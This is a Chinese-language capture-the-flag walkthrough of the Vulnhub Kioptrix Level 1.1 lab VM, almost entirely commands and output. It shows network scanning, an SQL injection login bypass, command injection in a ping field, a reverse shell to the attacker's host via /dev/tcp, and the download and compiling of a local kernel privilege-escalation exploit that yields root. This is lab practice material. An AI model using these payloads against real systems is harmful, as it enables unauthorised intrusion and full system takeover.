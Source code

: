 # Vulnhub Kioptix Level 1.1（#2）


# Vulnhub-kioptix-Level-1.1(#2)

### 基本信息

kali:192.168.110.10

靶机:192.168.110.17

### 一、信息收集

```
└─# arp-scan --interface=eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:50:56:a3:f5:91, IPv4: 192.168.110.10
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.110.1   00:50:56:a3:2e:39       VMware, Inc.
192.168.110.17  00:0c:29:de:9d:0f       VMware, Inc.
192.168.110.18  00:50:56:a3:de:c6       VMware, Inc.
192.168.110.19  00:50:56:a3:bd:59       VMware, Inc.

82 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 3.127 seconds (81.87 hosts/sec). 4 responded
```

```
└─# nmap -sV 192.168.110.17 -p1-65535
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-29 16:37 CST
Nmap scan report for 192.168.110.17
Host is up (0.00023s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
645/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:DE:9D:0F (VMware)
```

### 二、漏洞利用

网页登录框试下万能码`' or 1='1`

登录进去

`127.0.0.1;whoami`

```
127.0.0.1;whoami
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.016 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.027 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.028 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.016/0.023/0.028/0.007 ms, pipe 2
apache
```

`127.0.0.1;bash -i >& /dev/tcp/192.168.110.10/4444 0>&1`

`nc -nvlp 4444`

```
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

```
searchsploit privilege | grep centos -i
```



```
python3 -m http.server 6666
```

```
wget http://192.168.110.10:6666/9542.c
```

```
gcc -o 9542 9542.c
```

```
./9542
```

```
sh-3.00# whoami
root
```


